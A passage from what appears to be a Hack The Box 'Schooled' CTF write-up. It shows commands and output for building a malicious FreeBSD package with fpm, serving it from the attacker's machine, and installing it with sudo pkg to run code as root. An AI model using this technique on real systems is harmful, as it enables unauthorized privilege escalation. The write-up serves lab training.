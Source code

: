 [pkg | GTFOBins](https://gtfobins.github.io/gtfobins/pkg/)

Generated PoC:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Schooled/exploit]
└─$ echo 'id' > x.sh

┌──(kali㉿kali)-[~/…/HTB/box/Schooled/exploit]
└─$ fpm -n x -s dir -t freebsd -a all --before-install x.sh .
DEPRECATION NOTICE: XZ::StreamWriter#close will automatically close the wrapped IO in the future. Use #finish to prevent that.
/var/lib/gems/2.7.0/gems/ruby-xz-0.2.3/lib/xz/stream_writer.rb:185:in `initialize'
        /var/lib/gems/2.7.0/gems/fpm-1.12.0/lib/fpm/package/freebsd.rb:85:in `new'
        /var/lib/gems/2.7.0/gems/fpm-1.12.0/lib/fpm/package/freebsd.rb:85:in `block in output'
        /var/lib/gems/2.7.0/gems/fpm-1.12.0/lib/fpm/package/freebsd.rb:84:in `open'
        /var/lib/gems/2.7.0/gems/fpm-1.12.0/lib/fpm/package/freebsd.rb:84:in `output'
        /var/lib/gems/2.7.0/gems/fpm-1.12.0/lib/fpm/command.rb:487:in `execute'
        /var/lib/gems/2.7.0/gems/clamp-1.0.1/lib/clamp/command.rb:68:in `run'
        /var/lib/gems/2.7.0/gems/fpm-1.12.0/lib/fpm/command.rb:574:in `run'
        /var/lib/gems/2.7.0/gems/clamp-1.0.1/lib/clamp/command.rb:133:in `run'
        /var/lib/gems/2.7.0/gems/fpm-1.12.0/bin/fpm:7:in `<top (required)>'
        /usr/local/bin/fpm:23:in `load'
        /usr/local/bin/fpm:23:in `<main>'
Created package {:path=>"x-1.0.txz"}

┌──(kali㉿kali)-[~/…/HTB/box/Schooled/exploit]
└─$ sudo python3 -m http.server 80
[sudo] password for kali:
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.234 - - [11/May/2021 15:45:14] "GET /x-1.0.txz HTTP/1.1" 200 -
10.10.10.234 - - [11/May/2021 15:45:27] "GET /x-1.0.txz HTTP/1.1" 200 -
```

Executed the PoC:

```bash
jamie@Schooled:~ $ curl 10.10.14.24/x-1.0.txz x-1.0.txz
Warning: Binary output can mess up your terminal. Use "--output -" to tell
Warning: curl to output it to your terminal anyway, or consider "--output
Warning: <FILE>" to save to a file.
jamie@Schooled:~ $ curl 10.10.14.24/x-1.0.txz -o x-1.0.txz
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  2572  100  2572    0     0  21256      0 --:--:-- --:--:-- --:--:-- 21256
jamie@Schooled:~ $ sudo pkg install -y --no-repo-update x-1.0.txz
pkg: Repository FreeBSD has a wrong packagesite, need to re-create database
pkg: Repository FreeBSD cannot be opened. 'pkg update' required
Checking integrity... done (0 conflicting)
The following 1 package(s) will be affected (of 0 checked):

New packages to be INSTALLED:
        x: 1.0

Number of packages to be installed: 1
[1/1] Installing x-1.0...
uid=0(root) gid=0(wheel) groups=0(wheel),5(operator)
Extracting x-1.0: 100%
```
